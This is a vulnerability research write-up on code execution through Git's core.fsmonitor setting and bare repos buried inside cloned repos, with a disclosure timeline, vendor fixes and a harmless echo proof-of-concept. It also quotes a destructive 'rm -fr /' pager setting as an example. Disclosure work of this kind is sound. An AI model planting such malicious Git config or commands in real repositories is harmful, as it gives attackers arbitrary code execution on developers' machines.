


# Git honours embedded bare repos, and exploitation via `core.fsmonitor` in a directory's `.git/config` affects IDEs, shell prompts and Git pillagers

<https://twitter.com/justinsteven>

# Overview

This document is a body of work regarding Git and software that integrates with Git.

The first few sections discuss **Git**, the **.git/** directory, and the **.git/config** file. It goes on to discuss the **core.fsmonitor** configuration directive in the config file and its usefulness as an exploitation primitive. It concludes that there are **several traps** in a `.git/` directory (with `core.fsmonitor` being particularly abusable) and that while these are features of Git and not bugs, if a user or software can be **tricked into running `git` against a malicious `.git/` directory**, an attacker can gain **arbitrary code execution** on the user's machine. Note that this type of issue is not exploitable via a repo delivered by `git clone`, because cloning a repo does not allow the remote to sufficiently control files within the client's `.git/` directory. Git currently has no plans to change the behaviour regarding potentially dangerous configuration directives in a repo's `.git/config` file.

The next section discusses a **weakness/peculiarity/vulnerability** (depending on your interpretation) in **Git itself**. This is referred to as OVE-20210718-0001 throughout the rest of the document. It essentially **allows a "bare" repo to be embedded within a "regular" Git repo**. While Git has controls that prevent a regular repo (i.e. a `.git/` directory) from being stored within and delivered through a Git repo, there are no controls preventing the storage of a bare repo within another Git repo. When combined with traps such as `core.fsmonitor`, this means that the following sequence of actions is dangerous and can result in arbitrary code execution:

```plain
git clone ssh://git@host.example/helloworld.git
cd helloworld
git status          # <-- Safe
cd malicious_subdirectory
git status          # <-- Dangerous
```

Git currently has no plans to change the behaviour that allows bare repos to be embedded within regular repos.

The final sections of the document discuss **vulnerabilities in software that integrates with Git**.

Several **IDEs** (Integrated Development Environments) are demonstrated as being vulnerable. When opening a directory containing a malicious `.git/` directory, many IDEs will opportunistically execute `git` to show the status of the repo. In doing this they will honour `.git/config` and so can be made to **execute arbitrary code**.

**GitHub Atom** is vulnerable, and as of publication there are reportedly no plans to fix this.

Microsoft **Visual Studio Code** was vulnerable (CVE-2021-43891), and as of 1.63.1 it requires users to trust a workspace before it will execute Git. It is possible to combine OVE-20210718-0001 (burying a bare repo within a regular repo) with Code's `git.ignoredRepositories` per-workspace setting, allowing the attack to be performed via a simple `git clone <remote> && code <project>`.

**Microsoft Visual Studio** is vulnerable. In Visual Studio 2019, arbitrary code execution can be achieved even if the user is warned that opening untrustworthy solutions can be dangerous (Triggered by Mark of the Web) and the user chooses not to open the Solution. In Visual Studio 2022, the feature that warns the user about opening untrustworthy solutions is disabled by default.

Many IDEs from **JetBrains** were vulnerable (CVE-2022-24345) and starting in version 2021.3.1 a user must trust a directory while opening it for Git to be enabled.

A section on **Git prompt decorations** describes the exploitation of shell prompt decorations which display the current repo's status in a user's shell/terminal prompt. This is shown to affect **git-prompt.sh**, **Oh My Zsh**, **Oh My Posh**, **posh-git** and **fish**. By using `cd` to switch to a directory belonging to a malicious Git repo, **arbitrary code execution** can be achieved. Fish mitigated the issue in v. 3.4.0 (CVE-2022-20001).

Finally, **Git pillaging tools** are explored. These attack tools normally download `.git/` directories that have mistakenly been made available on webservers. By tricking an attacker into using such a tool to pillage a malicious Git repo, various outcomes can be achieved. This includes the writing of arbitrary files (affects **lijiejie/GitHack**) and RCE (affects **arthaud/git-dumper**, **WangYihang/GitHacker**, **evilpacket/DVCS-Pillage**, **internetwache/GitTools** with some user interaction required, and **kost/dvcs-ripper**). If an attacker uses one of these tools to pillage a crafted Git repo from a webserver, or is scanning the Internet using one of these tools to opportunistically download Git repos, they are vulnerable.

The list of software vulnerable to exploitation via Git features such as `core.fsmonitor` likely extends beyond those discussed in this document.

# Bug Collisions

When notifying the Git security team of my work they said that it was similar to work independently submitted to them by [Thomas Chauchefoin](https://twitter.com/swapgs) and [Paul Gerste](https://twitter.com/pspaul95) of [SonarSource](https://www.sonarsource.com/). In particular, Thomas and Paul also identified the usefulness of `core.fsmonitor` as an exploitation primitive and the exploitability of IDEs and shell prompts. It was quite serendipitous that we each focused on the same abusable configuration directive. Their work is detailed in a post titled [Securing Developer Tools: Git Integrations](https://blog.sonarsource.com/securing-developer-tools-git-integrations).

Driver Tom published an [advisory](https://drivertom.blogspot.com/2021/08/git.html) in August 2021 ([Translated to English](https://drivertom-blogspot-com.translate.goog/2021/08/git.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-GB&_x_tr_pto=nui)) in which a crafted `.git/index` file can be used to achieve an arbitrary write primitive. Driver Tom demonstrated this in the context of Git pillagers (and also in SVN pillagers using a similar concept), suggesting that this is equivalent to RCE (e.g. by targeting cron on Linux, the Start Menu "Startup" facility on Windows, or by targeting the Git pillaging executable itself).

Finally, [@vladimir_metnew](https://twitter.com/vladimir_metnew) published [RCE in GitHub Desktop < 2.9.4](https://github.com/Metnew/write-ups/tree/main/rce-github-desktop-2.9.3) in February 2022. By combining the `openlocalrepo` URL handler scheme with some creative delivery mechanisms for a Git repo with a malicious [filter](https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes) configuration, RCE with some user interaction could be achieved in GitHub Desktop <2.9.4.

Update: Since publishing this document, a [post to the Git mailing list by Glen Choo](https://lore.kernel.org/git/kl6lsfqpygsj.fsf@chooglen-macbookpro.roam.corp.google.com/) linked to [a blog post by wtm](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-bug-3/) from 2019 which describes exploitation via buried bare repos using hooks instead of `core.fsmonitor`.

# Whose fault is this anyway?

In the early days of this research, I believed that exploitation via configuration directives like `core.fsmonitor` isn't the fault of Git, and this sentiment runs throughout much of this document. I believed that Git offers many "dangerous" configuration knobs, such as `core.fsmonitor`, to be configured in the context of an individual Git repo's `.git/config` file. I believed that these knobs are features, not bugs, and that a tool which opportunistically runs `git` against a Git repo, if that Git repo is not trustworthy, is the vulnerable component.

During my discussions with the Git security team I got the strong sense that they agreed with my position. They also said that if any safety rails around dangerous items in `.git/` are to be instituted in Git, they will need to be done via public discussion on the Git mailing list, and that the publication of this document can assist not only that process, but can also help vendors and users of Git-integrated software to be aware of the dangers of opportunistically executing Git against untrustworthy repos.

Update: Since publishing this document, [Glen Choo posted to the Git mailing list](https://lore.kernel.org/git/kl6lsfqpygsj.fsf@chooglen-macbookpro.roam.corp.google.com/) to discuss protections that can be introduced against buried bare repos. Related to the topic of dangerous things in `.git/`, Glen links to a [prior post to the Git mailing list](https://lore.kernel.org/git/20171003123239.lisk43a2goxtxkro@sigill.intra.peff.net/) from 2017 which said:


```plain
> Suppose that I add the following to .git/config in a repository on a
> shared computer:
> 
> 	[pager]
> 		log = rm -fr /
> 		fsck = rm -fr /
> 
> ("rm -fr /" is of course a placeholder here.)
> 
> I then tell a sysadmin that git commands are producing strange output
> and I am having trouble understanding what is going on.  They may run
> "git fsck" or "git log"; in either case, the output is passed to the
> pager I configured, allowing me to run an arbitrary command using the
> sysadmin's credentials.

I know you probably didn't mean this to be an exhaustive list, but there
are really a ton of config options that can result in executing
arbitrary commands. External diff, textconv, ssh commands, and so on.

I don't think that changes your point any, but it's something to keep in
mind when evaluating solutions:

  - if individual options need to be annotated as unsafe, there's a high
    risk of missing an option (or introducing a new one incorrectly)

  - any schemes which reduce functionality (e.g., by disallowing certain
    options in repo config by default) are going to affect a lot of
    people
```

During the disclosure process with affected vendors, some vendors said that they believe this is a problem with Git and it should be handled there, and that running `git` against an untrustworthy repo should not be a dangerous operation. While I disagreed with this, I understood the position and I appreciate that it would be convenient for a fix to be comprehensively introduced upstream in Git. While I'm worried it's not likely or possible for Git to be made safe when operating on an untrustworthy repo, it may be able to be done in time. In the meantime, this is an issue with which software vendors must be concerned.

Finally, the existence of bug collisions (listed above) indicated to me that other people are also investigating the exploitability of these dangerous Git configuration knobs. Thus it's appropriate and timely to publicly discuss this issue. My hope is that this document helps vendors and users and researchers to find instances of dangerous use of Git and to get some bugs fixed.

# Timeline

* July-August 2021 - Began research, identified the attractiveness of `core.fsmonitor` as an exploitation primitive, explored IDEs and shell prompts and Git pillaging tools, identified the ability to bury bare repos within regular repos.
* September 2021 - Notified JetBrains of exploitability via `core.fsmonitor` as it relates to IDEs. JetBrains closed the report as a duplicate of a previously submitted issue and said they are using IDEA-277306 to internally track the issue. JetBrains later said that a fix is scheduled for the 2021.3.1 release.
* September 2021 - Opened an [issue](https://github.com/atom/atom/issues/23030) on the GitHub Atom project asking for a security policy to be created. No response.
* September 2021 - Notified Git security team (and incidentally other vendors on the Git security list) of the abuse potential of `core.fsmonitor` (including in Git's `git-prompt.sh`) and the ability to bury bare repos within a regular repo
    * During this process, the Git security team put me in touch with Thomas Chauchefoin regarding a collision (see above) on the abuse potential of `core.fsmonitor`. Thomas said that they had already advised GitHub Atom of exploitability via `core.fsmonitor` and said that Atom indicated they will not fix the issue.
* December 2021 - Notified Oh My Zsh, Oh My Posh, posh-git and fish of exploitability via `core.fsmonitor`
* December 2021 - Visual Studio Code [mitigated](https://github.com/microsoft/vscode/commit/67d6356a25661ecd2bdaf13a3fc8c9d14ee5161f#diff-d2512fe1fa1647562196c80d28ebbe487d6037a512896f724ef7fa26f4c57c5b) the exploitability via `core.fsmonitor` by disabling the Git extension where the workspace is not trusted.
* December 2021 - JetBrains mitigated the exploitability via `core.fsmonitor` in 2021.3.1 of their IDEs with the introduction of Trusted Projects
* 31 January 2022 - Notified git-dumper, GitHacker, DVCS-Pillage, GitTools and GitHack of various issues (RCE and/or arbitrary file write)
* 31 January 2022 - git-dumper mitigated the arbitrary file write, but the RCE will not be fixed
* 31 January 2022 - GitHacker fixed the arbitrary file write
* March 2022 - GitHacker fixed the RCE
* March 2022 - fish [mitigated](https://github.com/fish-shell/fish-shell/security/advisories/GHSA-pj5f-6vxj-f5mq) the exploitability via `core.fsmonitor` by overriding its value when executing `git`.
* 17 March 2022 - publication of this document

Regarding both the ability to bury bare Git repos in regular repos and the abuse potential of `core.fsmonitor`, the Git security team indicated that no fixes or mitigations are currently planned. They said that if changes are to be made, they'll be best discussed and planned on the public Git development mailing list.

# Git

[Git](https://git-scm.com/) is a free and open-source version control system.

A project in Git is known as a repository or "repo". Git is decentralised, in that a Git repo can be "cloned" from a "remote" (such as GitHub) onto a user's machine. This "clone" typically includes the current state of the project, as well as its entire history (not including platform data such as GitHub issues, pull requests, wiki data etc.)

Reasons for cloning a Git repo are:

* To obtain a local copy of the code; and/or
* To modify the code and submit changes via a "Pull Request" to the original repo

Interfacing with a Git repo is often done through the `git` command-line utility. A repo can also be interfaced with through other software such as Git GUIs and IDEs.

Cloning and using a Git repo is intended to be a safe operation, in that no code specified in the repo will execute on a user's machine when they:

* Clone the repo from a remote
* Locally observe the history of a cloned repo
* Locally modify a cloned repo
* Push changes to a remote

If a user clones a repo and then explicitly runs code in that repo, all bets are off.

However, perhaps surprisingly to some, if a user obtains a repo in some way other than using `git clone` (e.g. by downloading and unpacking a tarball) and then runs Git operations against that repo, malicious configurations or states within that Git repo can be dangerous to the user's machine.

# Git directories

A Git directory maintains internal state, or metadata, relating to a Git repository. It is created on a user's machine when:

* The user does `git init` to intialise an empty local repository; or
* The user does `git clone <repository>` to clone an existing Git repository from a remote location

The structure of a Git directory is documented at <https://git-scm.com/docs/gitrepository-layout>

Note that a Git directory is often, but not always, a directory named `.git` at the root of a repo. If the `git` utility is executed with the environment variable `$GIT_DIR` set, the value of that variable will be used instead. Furthermore, [bare repos](https://git-scm.com/docs/git-init#Documentation/git-init.txt---bare) do not have a `.git` directory.

In general use of Git, the Git directory will be named `.git`, and so unless specified otherwise this document will assume that case.

Structure of a fresh Git directory:

```plain
root@ee16c89ecff8:/# cd $(mktemp -d)

root@ee16c89ecff8:/tmp/tmp.MZd1dWjl8K# git init
Initialized empty Git repository in /tmp/tmp.MZd1dWjl8K/.git/

root@ee16c89ecff8:/tmp/tmp.MZd1dWjl8K# ls -la .git
total 40
drwxr-xr-x 7 root root 4096 Aug 14 12:01 .
drwx------ 3 root root 4096 Aug 14 12:01 ..
-rw-r--r-- 1 root root   21 Aug 14 12:01 HEAD
drwxr-xr-x 2 root root 4096 Aug 14 12:01 branches
-rw-r--r-- 1 root root   92 Aug 14 12:01 config
-rw-r--r-- 1 root root   73 Aug 14 12:01 description
drwxr-xr-x 2 root root 4096 Aug 14 12:01 hooks
drwxr-xr-x 2 root root 4096 Aug 14 12:01 info
drwxr-xr-x 4 root root 4096 Aug 14 12:01 objects
drwxr-xr-x 4 root root 4096 Aug 14 12:01 refs
```

# Trustworthiness of Git directories

Running the `git` utility against an untrustworthy Git directory can be dangerous. This is somewhat commonly known.

For example:

* If there are executable files in `.git/hooks/` with prescribed names, these will be used as [Hooks](https://git-scm.com/docs/githooks) when doing certain Git operations.
* The file `.git/config` is used as a [Git configuration file](https://git-scm.com/docs/git-config#_configuration_file). It is essentially an INI file and it governs many runtime options of the `git` utility. Some of these options can be abused - we will dig into one such way shortly.

Note that this is not intended to be an exhaustive list of potential dangers in a Git directory.

Generally speaking, simply cloning a repo from a remote is a safe operation. Cloning a repo is intended to not give the remote the ability to influence the Git directory in a way that can be dangerous.

That said, there have been vulnerabilities reported in Git itself which allow an untrustworthy Git remote to inappropriately and dangerously control the contents of a user's Git directory upon downloading material (e.g. via `git clone` or `git pull`). For example, [CVE-2014-9390](https://github.blog/2014-12-18-vulnerability-announced-update-your-git-clients/) was a vulnerability in the `git` utility where a malicious remote could overwrite content in a user's local `.git` directory on case-insensitive filesystems (e.g. Windows, macOS), or on filesystems which ignore certain Unicode codepoints (e.g. macOS). This was handled as a vulnerability in Git, and was addressed by preventing this particular way in which a malicious remote could control contents within the user's `.git` directory.

Importantly, even in light of bugs such as CVE-2014-9390, no care has been given to the fact that there are things inside a Git directory that can cause harm. This is likely because the ability of the Git directory to influence the operation of the `git` utility (sometimes with dangerous outcomes) is a feature of Git, not a bug.

In short:

* Cloning Git repos and interacting with a genuinely cloned repo is intended to be safe
* Running `git` against an untrustworthy (i.e. maliciously crafted) `.git` directory is known to be dangerous
* If you can trick the `git` utility into unsafely modifying the contents of the `.git` directory during a `clone` or `pull` from a remote repository, that is a vulnerability in Git
* If you can trick someone into running the `git` utility against a `.git` directory that you control, you can generally run arbitrary code on that person's computer
* If you can find a novel way to trick some software into running `git` against a `.git` directory that you control, that is a vulnerability (or at least an abusable feature) in the non-Git software. It is arguably not a vulnerability in Git. It's just taking advantage of one of its features.

# Abuse via `.git/hooks/`

Various files within `.git/hooks/` are [executed upon certain Git operations](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks). For example:

* `pre-commit` and `post-commit` are executed before and after a commit operation respectively
* `post-checkout` is executed after checkout operation
* `pre-push` is executed before a push operation

On filesystems that differentiate between executable and non-executable files, Hooks are only executed if the respective file is executable. Furthermore, hooks only execute given certain user interaction, such as upon performing a commit.

These conditions make Hooks less ideal for exploitation.

# Abuse via `core.fsmonitor` specification in `.git/config`

`.git/config` allows for the configuration of [options](https://git-scm.com/docs/git-config#_variables) on a per-repo basis. Many of the options allow for the specification of commands that will be executed in various situations.

For example:

* `core.gitProxy` gives a command that will be executed when establishing a connection to a remote using the Git protocol
* `core.sshCommand` gives a command that will be executed when establishing a connection to a remote using the SSH protocol
* `diff.external` gives a command that will be used instead of Git's internal diff function

This list is not exhaustive.

Many options allow specification of a command that will be used in certain situations, but some of these situations only arise when a user interacts with a Git repository in a particular way.

The `core.fsmonitor` option, [introduced](https://github.com/git/git/commit/883e248b8a0fd88773cb902ab8e91273eb147d07) in Git 2.16 (January 2018), turns out to be particularly useful for exploitation.

<https://git-scm.com/docs/git-config#Documentation/git-config.txt-corefsmonitor> says:

> If set, the value of this variable is used as a command which will identify all files that may have changed since the requested date/time. This information is used to speed up git by avoiding unnecessary processing of files that have not changed. See the "fsmonitor-watchman" section of [githooks\[5\]](https://git-scm.com/docs/githooks).

[The "fsmonitor-watchman" section of `githooks[5]`](https://git-scm.com/docs/githooks#_fsmonitor_watchman) says:

> The \[fsmonitor command\] should output to stdout the list of all files in the working directory that may have changed since the requested time. The logic should be inclusive so that it does not miss any potential changes. The paths should be relative to the root of the working directory and be separated by a single NUL.
>
> It is OK to include files which have not actually changed. All changes including newly-created and deleted files should be included. When files are renamed, both the old and the new name should be included.
>
> Git will limit what files it checks for changes as well as which directories are checked for untracked files based on the path names given.
>
> An optimized way to tell git "all files have changed" is to return the filename /.
>
> The exit status determines whether git will use the data from the hook to limit its search. On error, it will fall back to verifying all files and folders.

In other words, many operations provided by the `git` utility will invoke the command given by `core.fsmonitor` to quickly limit the operation's scope to known-changed files in the interest of performance.

In my testing, the following Git operations invoke the command given by `core.fsmonitor`:

* `git status` (used to show information about the state of the working tree, including whether any files have uncommitted changes)
* `git add <pathspec>` (used to stage changes for committing to the repo)
* `git rm --cached <file>` (used to unstage changes)
* `git commit` (used to commit staged changes)
* `git checkout <pathspec>` (used to check out a file, commit, tag, branch, etc.)

Once again, this list is not exhaustive, it's just some of the more common Git operations that I tested.

For operations that take a filename, `core.fsmonitor` will fire even if the filename provided does not exist.

Abuse via `core.fsmonitor` requires the attacker to be able to control the contents of a repo's `.git/config` file, and then for the victim user to do one of many `core.fsmonitor`-firing Git operations against that repository (rather than one of only certain operations that are supported by the hook mechanism). It does not depend on the attacker to be able to set the executable bit on a file, unlike in the case of Hooks. These factors make `core.fsmonitor` attractive as an exploitation primitive.

Note that the Git documentation says that an `fsmonitor` implementation must return all files that could have been changed since the given time. It is OK to give a file that has not changed, but it is incorrect to omit a file that has been changed. Furthermore, the documentation says that if the `fsmonitor` implementation returns a failure exit code, then Git will assume that all files have changed. For this reason, we'll ensure where possible that any of our payloads delivered via `core.fsmonitor` will return a failure exit code.

## POC - Executing arbitrary commands via `core.fsmonitor`

Build a Docker image that contains `git` and a simple Git user configuration:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com"

% sudo -g docker docker build --tag=justinsteven/git .
[... SNIP ...]
Successfully built 63dea543bbaf
Successfully tagged justinsteven/git:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git bash

root@675cbf87ff0f:/# git --version
git version 2.32.0
```


Create a new Git repo:

```plain
root@675cbf87ff0f:/# cd $(mktemp -d)

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git init
Initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
```

Change `core.fsmonitor` so that it echoes a message to STDERR whenever it is invoked:

```plain
root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2; false"' >> .git/config

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">&2; false"
```

Run:

* `git status`
* `git add` on a file that exists
* `git add` on a file that doesn't exist
* `git commit`

to show that our specified command is executed during many Git operations:

```plain
root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# touch aaaa

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git add aaaa
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git add zzzz
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
fatal: pathspec 'zzzz' did not match any files

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git commit -m 'add aaaa'
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
[main (root-commit) 7c2f2c6] add aaaa
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 aaaa
```

## Usefulness of `core.fsmonitor` to an attacker

Again, being able to execute arbitrary commands via `core.fsmonitor` is arguably not a vulnerability in Git. Being able to configure the `core.fsmonitor` parameter is a feature of Git, and is normally done on a global basis (via `~/.gitconfig`) or on a local per-repo basis (via `.git/config`) for performance reasons. For example, [Dropbox uses it internally](https://dropbox.tech/application/speeding-up-a-git-monorepo-at-dropbox-with--200-lines-of-code) to make the performance of a large monorepo more reasonable. This is not to say that Dropbox is doing something that makes them more vulnerable. Dropbox makes productive use of a configuration directive that is dangerous only when an attacker can specify its value.

If you find a way to overwrite the contents of someone's `.git` directory when they do something like `git clone` or `git pull`, that is a vulnerability in Git, and it would be up to Git to fix it.

If you find a way, as an attacker, to cause a victim user to perform Git operations on a repo where you have a reasonable way of controlling the contents of `.git/config`, then the configurability of `core.fsmonitor` becomes a powerful exploitation primitive.

This could be achieved by:

1. Providing a user with a tarball that contains a malicious `.git` directory, hoping that they unpack it and then run a Git operation such as `git status`. This is a high user-interaction and perhaps unlikely attack scenario. Most people expect to be able to `git clone` such a repository.
2. Providing a user with a tarball that contains a malicious `.git` directory, hoping that they unpack it and that they then use non-Git software that unsafely and opportunistically runs `git` against it.

Importantly, you cannot deliver a malicious `.git/config` file through a normal `git clone`. That said, OVE-20210718-0001 (discussed below) gives us a novel way to embed a Git directory, complete with a malicious `config` file, within a subdirectory of a repository that itself can be delivered through `git clone`.

The next section describes OVE-20210718-0001, and then the remainder of this document discusses ways in which various software can be tricked into executing `git` against a crafted Git directory containing a malicious `core.fsmonitor` value.

# OVE-20210718-0001 - `git` checks out bare Git repos embedded within regular Git repos

* Version tested: [2.32.0](https://github.com/git/git/tree/v2.32.0) on Linux
* Also tested: [2.35.1](https://github.com/git/git/tree/v2.35.1) on Linux

Not patched or mitigated as of the time of publication. There are currently no plans to change this behaviour of Git.

Update: Since publishing this document, [Glen Choo posted to the Git mailing list](https://lore.kernel.org/git/kl6lsfqpygsj.fsf@chooglen-macbookpro.roam.corp.google.com/) to discuss protections that can be introduced against buried bare repos. This conversation is ongoing as of the time of writing this update.

## Overview

A Git repo can contain a bare repo that is embedded or "buried" within a subdirectory. The embedded bare repo can be added and committed to the "parent" repo. The parent repo can be `push`ed, `pull`ed and `clone`d as a regular Git repo. Upon running a `git` command from the directory containing the embedded bare repo, or a child directory thereof, the command will be run using the bare repo as the Git directory.

Running `git` commands from subdirectories of a cloned Git repo is a natural thing for users to do. For example, it is reasonable for a user to:

1. Clone a repo
2. `cd` into a directory of that repo
3. Edit files within that directory
4. Do `git status` to list the files that they have changed. `git` will recognise that it's in a subdirectory of a repo, and will show changed files relative to the CWD.
5. Do `git add` to stage changed files, and `git commit` to commit the changes
6. Do `git push` to push the commit to the remote

If a victim user clones a repo that has a malicious bare repo embedded within a subdirectory, and then runs any Git operation from that "poisoned" subdirectory (or any child directory thereof), the `config` file within the embedded bare repo will be honoured by `git`. This leads to arbitrary code execution through configuration directives such as `core.fsmonitor` (discussed above).

Note that if the bare repo is at the root of the parent repo, `git` will not honour the bare repo. The bare repo MUST be within a subdirectory of the parent repo.

## Detail

`git`, when doing `git clone` or `git pull` from a remote, applies controls to the names of files that it checks out into the working directory.

* [add_index_entry_with_check()](https://github.com/git/git/blob/ebf3c04b262aa27fbb97f8a0156c2347fecafafb/read-cache.c#L1304-L1362) calls [verify_path()](https://github.com/git/git/blob/ebf3c04b262aa27fbb97f8a0156c2347fecafafb/read-cache.c#L994-L1053) which:
    * Calls [is_ntfs_dotgit()](https://github.com/git/git/blob/75ae10bc75336db031ee58d13c5037b929235912/path.c#L1376-L1410) if the configuration directive `core.protect_ntfs` is true. Note that `core.protect_ntfs`, if not defined in `config`, is given by [PROTECT_NTFS_DEFAULT for which the compile-time default is 1](https://github.com/git/git/blob/142430338477d9d1bb25be66267225fb58498d92/environment.c#L83-L86).
    * Calls [verify_dotfile()](https://github.com/git/git/blob/75ae10bc75336db031ee58d13c5037b929235912/read-cache.c#L951-L993) if the filename starts with a dot

Note that `verify_path()` walks left-to-right through the entire file path in question, applying the above logic against each component in the path.

Both `is_ntfs_dotgit()` and `verify_dotfile()` prevent a user's `git` from checking out a file or directory named `.git`, or a file or directory within a directory named `.git`. This means that a malicious remote cannot cause a `git` client to overwrite files within the client's `.git` directory, and cannot cause it to create a regular repository embedded within the cloned repository (aside from through the use of [submodules](https://git-scm.com/book/en/v2/Git-Tools-Submodules), in which case the `git` client is still in control of the creation of the submodule's `.git`)

However, a "Git directory" as it's referred to in the Git source code does not necessarily need to be a directory named `.git`

[setup_git_directory_gently_1() says the following](https://github.com/git/git/blob/75ae10bc75336db031ee58d13c5037b929235912/setup.c#L1096-L1106):

```c
	/*
	 * Test in the following order (relative to the dir):
	 * - .git (file containing "gitdir: <path>")
	 * - .git/
	 * - ./ (bare)
	 * - ../.git
	 * - ../.git/
	 * - ../ (bare)
	 * - ../../.git
	 *   etc.
	 */
```

That is, if a `git` command is run from a directory, then if there is a file named `.git` it will use its contents to find the Git directory, and if there is a directory named `.git` it will use it as the Git directory. Otherwise, if the current directory is a "bare repo" it will use the directory itself as the Git directory. Otherwise, it starts walking up the filesystem towards `/`, repeating the process as it goes, until it finds a viable Git directory.

What is a "bare repo", and can we bury one within a regular repo without violating the rule regarding files named `.git`?

[setup_git_directory_gently1() goes on to say](https://github.com/git/git/blob/75ae10bc75336db031ee58d13c5037b929235912/setup.c#L1133-L1136):

```c
		if (is_git_directory(dir->buf)) {
			strbuf_addstr(gitdir, ".");
			return GIT_DIR_BARE;
		}
```

This is a call to `is_git_directory()` for the directory itself, checking to see if it is a bare repo.

[is_git_directory()](https://github.com/git/git/blob/75ae10bc75336db031ee58d13c5037b929235912/setup.c#L328-L377) says:

```c
/*
 * Test if it looks like we're at a git directory.
 * We want to see:
 *
 *  - either an objects/ directory _or_ the proper
 *    GIT_OBJECT_DIRECTORY environment variable
 *  - a refs/ directory
 *  - either a HEAD symlink or a HEAD file that is formatted as
 *    a proper "ref:", or a regular file HEAD that has a properly
 *    formatted sha1 object name.
 */
int is_git_directory(const char *suspect)
{
	struct strbuf path = STRBUF_INIT;
	int ret = 0;
	size_t len;


	/* Check worktree-related signatures */
	strbuf_addstr(&path, suspect);
	strbuf_complete(&path, '/');
	strbuf_addstr(&path, "HEAD");
	if (validate_headref(path.buf))
		goto done;


	strbuf_reset(&path);
	get_common_dir(&path, suspect);
	len = path.len;


	/* Check non-worktree-related signatures */
	if (getenv(DB_ENVIRONMENT)) {
		if (access(getenv(DB_ENVIRONMENT), X_OK))
			goto done;
	}
	else {
		strbuf_setlen(&path, len);
		strbuf_addstr(&path, "/objects");
		if (access(path.buf, X_OK))
			goto done;
	}


	strbuf_setlen(&path, len);
	strbuf_addstr(&path, "/refs");
	if (access(path.buf, X_OK))
		goto done;


	ret = 1;
done:
	strbuf_release(&path);
	return ret;
}
```

That is, it is checking to see if the following files exist:

* `HEAD` (as a properly-formatted `HEAD` file)
* `objects` (as an executable file - note that for a genuine Git directory it is typically a directory)
* `refs` (as an executable fille - note that for a genuine Git directory it is typically a directory)

By this logic, a "bare repo" does not involve a file named `.git`. Thus, a bare Git repo can be embedded in a subdirectory of another Git repo. The files comprising the bare repo can be added and committed to the Git repo as regular files, and will be checked out when the repo is `clone`d or `pull`ed.

